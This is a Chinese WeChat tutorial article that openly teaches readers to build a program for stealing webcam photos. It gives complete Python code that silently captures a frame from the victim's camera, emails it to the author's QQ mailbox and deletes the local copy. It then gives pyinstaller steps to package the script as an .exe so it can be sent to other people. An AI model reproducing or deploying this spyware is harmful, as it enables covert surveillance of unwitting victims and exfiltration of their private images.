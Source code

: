 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzI0MzU2NzQ1OA==&mid=2247501523&idx=2&sn=fdd5328fef78fda9af33a8088717c4e9&chksm=e96998dede1e11c8d27cef1b4c670fcdc1ddaa33723c03811328672b856a031573bbcb20393a&mpshare=1&scene=1&srcid=0605JagZ0kBHMD9c2HEO7JWZ&sharer_sharetime=1622826644852&sharer_shareid=7fece245937ac96f04f0fb8e1311fff1#rd)

公众号

点击上方 "**Python 人工智能技术** " 关注，星标或者置顶

22 点 24 分准时推送，第一时间送达

后台回复 “**大礼包**”，送你特别福利  

> 编辑：技术君 | 来源：Henrik-Yao | 链接：nxw.so/5nIWK

[Pythn 人工智能技术 (ID:coder_experience) 第 514 次推文](http://mp.weixin.qq.com/s?__biz=MzI0MzU2NzQ1OA==&mid=2247489525&idx=1&sn=26e9ce9d935a845d03ce4a3d30ebc975&chksm=e96a49f8de1dc0eeda78a0f1fa1ab74bfa13222fecbb924f52e59b59cd8b431d6e0fd00cc1cb&scene=21#wechat_redirect)

上一篇：[8 年开发，连登陆接口都写这么烂...](http://mp.weixin.qq.com/s?__biz=MzI0MzU2NzQ1OA==&mid=2247501342&idx=1&sn=44200a7409acb73e89447fac3bda38dc&chksm=e9699813de1e1105db12fc0ffb859ff1df1612ce58dd18edbcac7ca77d05ffc73f37b9c0a8c3&scene=21#wechat_redirect)

**正文**

教你用 python 做一个属于自己的窃取摄像头照片的软件。  

需要安装 python3.5 以上版本，在官网下载即可。

然后安装库 opencv-python，安装方式为打开终端输入命令行。

可以在使用 pip 的时候加参数 - i https://pypi.tuna.tsinghua.edu.cn/simple，这样就会从清华这边的镜像去安装需要的库，会快很多。

```
$ pip install opencv-python -i https://pypi.tuna.tsinghua.edu.cn/simple/
```

具体的代码以及相应的注释如下，你只需要更改收件人和发件人为自己的邮箱，更改授权码，再编译成可执行文件，即把. py 打包成. exe，这样就可以发给别人用啦。

```
import os                                       # 删除文件
import cv2                                      # 调用摄像头拍摄照片
from smtplib import SMTP_SSL                    # SSL加密的   传输协议
from email.mime.text import MIMEText            # 构建邮件文本
from email.mime.multipart import MIMEMultipart  # 构建邮件体
from email.header import Header                 # 发送内容


# 调用摄像头拍摄照片
def get_photo():
    cap = cv2.VideoCapture(0)           # 开启摄像头
    f, frame = cap.read()               # 将摄像头中的一帧数据保存
    cv2.imwrite('image.jpg', frame)     # 将保存为本地文件
    cap.release()                       # 关闭摄像头


# 把文件发送到我的邮箱
def send_message():
    # 选择QQ邮箱发送照片
    host_server = 'smtp.qq.com'         # QQ邮箱smtp服务器
    pwd = '****************'            # 授权码
    from_qq_mail = 'QQ@qq.com'          # 发件人
    to_qq_mail = 'QQ@qq.com'            # 收件人
    msg = MIMEMultipart()               # 创建一封带附件的邮件

    msg['Subject'] = Header('摄像头照片', 'UTF-8')    # 消息主题
    msg['From'] = from_qq_mail                       # 发件人
    msg['To'] = Header("YH", 'UTF-8')                # 收件人
    msg.attach(MIMEText("照片", 'html', 'UTF-8'))    # 添加邮件文本信息

    # 加载附件到邮箱中  SSL 方式   加密
    image = MIMEText(open('image.jpg', 'rb').read(), 'base64', 'utf-8')
    image["Content-Type"] = 'image/jpeg'   # 附件格式为的加密数据
    msg.attach(image)                      # 附件添加

    # 开始发送邮件
    smtp = SMTP_SSL(host_server)           # 链接服务器
    smtp .login(from_qq_mail, pwd)         # 登录邮箱
    smtp.sendmail(from_qq_mail, to_qq_mail, msg.as_string())  # 发送邮箱
    smtp.quit()     # 退出


if __name__ == '__main__':
    get_photo()                 # 开启摄像头获取照片
    send_message()              # 发送照片
    os.remove('image.jpg')      # 删除本地照片
```

获取授权码的方法：设置 -> 账户 -> 开启 pop3/smtp 服务 -> 验证密保，即可获取到 16 位授权码。

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIAQUceTic5UAwfY1sXyTH79ErQ9DCicWbaWqqFhZGsfW1OgyuOtwZcIKg/640?wx_fmt=png)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIebyIZ0kicVZQmCx4vsfhdxv14Ps2DPV4oeRMZhfMK595kJklxd6GlRg/640?wx_fmt=png)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIdnexFBYX8JhFh55XlhXPiaWIlleucUNLibxzZojrSU6cxdPlVoL8j63g/640?wx_fmt=png)

  

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIXawRzTWqw5TmVYVg8CtcBBeKLhUNeB2yanWTwRnvFjfHQic9wtnycFw/640?wx_fmt=png)

**打包方法：**

*   先安装 pyinstaller，在终端中输入 pip install pyinstaller 即可。
    
*   找路径，用 cd 法找路径比较麻烦，这里推荐一种简便的方法，直接在路径框里面输入 cmd 进入终端即可，进入了就是目标路径。
    

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIjwYcVPI066CVhedWicMkeJ9yYuCVpmDSQ5lAibELu4GH8yUbMPLEkrfw/640?wx_fmt=png)

打包，输入命令行

搜索公众号顶级架构师后台回复 “面试”，获取一份惊喜礼包。

```
pyinstaller --console --onefile 7.py  //这里打包的是一个叫7.py的文件。
```

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIVXSKYSULIwkFTGzicHTvDyXLdnHWSEGD52n1EZ1wIBbsQnOc1LZWeicA/640?wx_fmt=png)

在 dist 文件夹里面即可找到可执行文件。

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIHeNlKGXl9JpOPvK4C54VXv3BicTPic7YeyWZDPwvEnkBBG0DYhRecb7Q/640?wx_fmt=png)

  

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIKOshPKy2bw9ZHf84DUiae9ZrT2BKuakOtBmene6ZMk72nSospGNzPKA/640?wx_fmt=png)

最后实验一下，会得到一个 bin 后缀的附件，把他改成 jpg 即可查看。

![图片](https://mmbiz.qpic.cn/mmbiz_png/ULibHgXIt3jz54bibWVpwHyrVmuD7TocqIjuy4NaSep3YL81nzvPBicTWVack4AhCHOPHgAj6ic6KJkDqMqMq4AmpA/640?wx_fmt=png)

**你还有什么想要补充的吗？**

> 免责声明：本文内容来源于网络，文章版权归原作者所有，意在传播相关技术知识 & 行业趋势，供大家学习交流，若涉及作品版权问题，请联系删除或授权事宜。

**技术君个人微信**

**添加技术君个人微信即送一份惊喜大礼包**